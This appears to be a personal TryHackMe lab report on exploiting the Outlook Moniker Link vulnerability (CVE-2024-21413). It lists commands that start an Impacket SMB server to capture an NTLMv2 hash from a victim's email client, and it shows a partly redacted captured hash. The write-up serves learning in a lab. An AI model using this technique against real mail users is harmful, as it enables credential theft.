

# [Moniker Link (CVE-2024-21413)] - Exploitation Report

## 📝 1. Overview
- Lab Name: [TryHackMe Cyber Security 101 - First Exploitation]
- Date Completed: [2025-08-24]
- Exploit: [Outlook Moniker Link Bypass (CVE-2024-21413)]
- Tools Used: [Impacket,Outlook]

## 🎯 2. Objective
Use a malicious moniker link to Capture NTLMv2 hash via SMB!

## 📚 3. Lessons Learned
- Learned how to use Impacket’s smbserver as a lightweight alternative to Responder.
- Understood how Outlook moniker links can leak NTLMv2 hashes.
- Practiced safe handling of captured hashes and redaction for public reporting.
  
## 🔧 4. Steps Taken
1. Connect to THM OpenVPN server. 
```zsh

sudo openvpn GuiGehlen.ovpn 
```
2. Start a SMB Server on my IP VPN using Impacket.
```zsh

mpacket-smbserver -smb2support monikshare /tmp -ip   MY_OPENVPN_IP
```
3. Create a exploit.py script using [CMNatic](https://github.com/CMNatic/CVE-2024-21413) scrypt to send a email with the malicious moniker link vulnerability.
```zsh

nano exploit.py
```
4. Get on the SMB server terminal the username and NTLMv2 hash of the email owner.

## 📊 5. Findings
- Compromised NTLMv2-SSP client: 10.201.110.237,50164
- Compromised NTLMv2-SSP User: THM-MONIKERLINK\tryhackme
- Compromised NTLMv2-SSP Hash: 
  - 'tryhackme::THM-MONIKERLINK:aaaaaaaaaaaaaaaa:eb867e49f95e970b4c0e2037c9f5a5ee:...REDACTED...'

## ✅ 6. Conclusion
The Moniker Link Exploit successefuly get the victmy user and hash!

## 📸 7. Screenshots


